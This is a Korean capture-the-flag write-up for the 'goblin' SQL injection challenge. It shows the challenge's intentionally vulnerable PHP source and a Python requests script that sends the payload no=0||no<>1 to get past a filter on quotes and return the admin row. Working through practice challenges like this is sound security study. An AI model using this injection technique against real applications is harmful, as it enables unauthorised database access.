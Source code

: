 ## GOBLIN Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");  
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");  
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("goblin");  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/goblin_e5afb87a6716708e3af46a849517afdc.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['no'] = "0||no<>1"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] GOBLIN Clear!")
```
이번 문제는 get으로 no를 받는다.  
no=1을 주면 **Hello guest** 가 뜬다.
이를 통해 guest가 1이라는 것을 알 수 있었고, no가 1이 아니면 풀릴 듯 했다.

no에 ==0||no<>1==을 넣어주면 쿼리는 다음과 같이 된다.
``` php
select id from prob_goblin where id='guest' and no=0||no<>1
```
mysql에서 **<>** 기호는 같지 않다는 의미이기 때문에 **no!=1** 과 같은 의미가 된다.  
**$result['id']** 에 guest가 아닌 값, admin이 있기 때문에 문제가 해결된다.